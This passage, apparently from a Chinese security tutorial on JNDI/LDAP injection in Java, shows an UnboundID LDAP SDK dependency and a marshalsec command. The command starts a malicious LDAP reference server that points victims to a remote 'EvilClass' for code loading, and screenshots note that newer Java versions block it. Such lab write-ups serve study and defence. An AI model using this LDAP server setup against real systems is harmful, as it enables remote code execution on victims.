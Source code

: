 ```bash
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>3.1.1</version>
</dependency>
```

[![ldap_low1.png](assets/1699929760-1e98e432506a137b9576fe65cb51800c.png)](https://storage.tttang.com/media/attachment/2022/05/25/9c33caac-baca-4c40-a6f6-cbb5137ec1c6.png)

#### [工具](#toc__6)

也可以使用`marshalsec`开启`LDAP`服务

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/\#EvilClass
```

[![ldap_low2.png](assets/1699929760-29770139225150e590ee02c81ebb9bbb.png)](https://storage.tttang.com/media/attachment/2022/05/25/4d0c66d6-eb8d-409b-89c3-ae986aa12f97.png)  
使用高版本后，返回`null`  
[![ldap_low3.png](assets/1699929760-1058a4b7d7808927b9e594aa44ee9e83.png)](https://storage.tttang.com/media/attachment/2022/05/25/fe55d8c3-fb54-448b-adcd-e609768ac3c7.png)
